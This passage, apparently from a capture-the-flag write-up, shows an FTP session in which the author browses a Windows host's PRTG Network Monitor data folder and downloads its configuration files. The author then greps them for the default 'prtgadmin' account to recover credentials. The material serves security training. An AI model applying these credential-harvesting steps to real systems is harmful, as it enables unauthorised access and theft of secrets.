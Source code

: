 ```
02-03-19  08:05AM       <DIR>          regid.1991-06.com.microsoft
07-16-16  09:18AM       <DIR>          SoftwareDistribution
02-03-19  08:05AM       <DIR>          Start Menu
02-03-19  12:15AM       <DIR>          TEMP
02-03-19  08:05AM       <DIR>          Templates
11-20-16  10:19PM       <DIR>          USOPrivate
11-20-16  10:19PM       <DIR>          USOShared
02-25-19  10:56PM       <DIR>          VMware
226 Transfer complete.
ftp> cd "Application Data/Paessler/PRTG Network Monitor"
250 CWD command successful.
ftp> ls -la
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  12:40AM       <DIR>          Configuration Auto-Backups
06-28-19  06:24AM       <DIR>          Log Database
02-03-19  12:18AM       <DIR>          Logs (Debug)
02-03-19  12:18AM       <DIR>          Logs (Sensors)
02-03-19  12:18AM       <DIR>          Logs (System)
06-28-19  06:24AM       <DIR>          Logs (Web Server)
02-25-19  08:01PM       <DIR>          Monitoring Database
06-28-19  06:54AM              1287578 PRTG Configuration.dat
02-25-19  10:54PM              1189697 PRTG Configuration.old
07-14-18  03:13AM              1153755 PRTG Configuration.old.bak
06-28-19  06:25AM              1647701 PRTG Graph Data Cache.dat
02-25-19  11:00PM       <DIR>          Report PDFs
02-03-19  12:18AM       <DIR>          System Information Database
02-03-19  12:40AM       <DIR>          Ticket Database
02-03-19  12:18AM       <DIR>          ToDo Database
226 Transfer complete.
ftp> get "PRTG Configuration.dat"
local: PRTG Configuration.dat remote: PRTG Configuration.dat
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1287578 bytes received in 3.43 secs (366.5319 kB/s)
ftp> get "PRTG Configuration.old"
local: PRTG Configuration.old remote: PRTG Configuration.old
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1189697 bytes received in 3.05 secs (380.7779 kB/s)
ftp> get "PRTG Configuration.old.bak"
local: PRTG Configuration.old.bak remote: PRTG Configuration.old.bak
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1153755 bytes received in 3.04 secs (370.2494 kB/s)
ftp>
```
#### Knowing that the default admin user for PRTG is `prtgadmin` I searched for that string in the 3 configuration files :
`cat * | grep -A 20 -B 20 "prtgadmin"`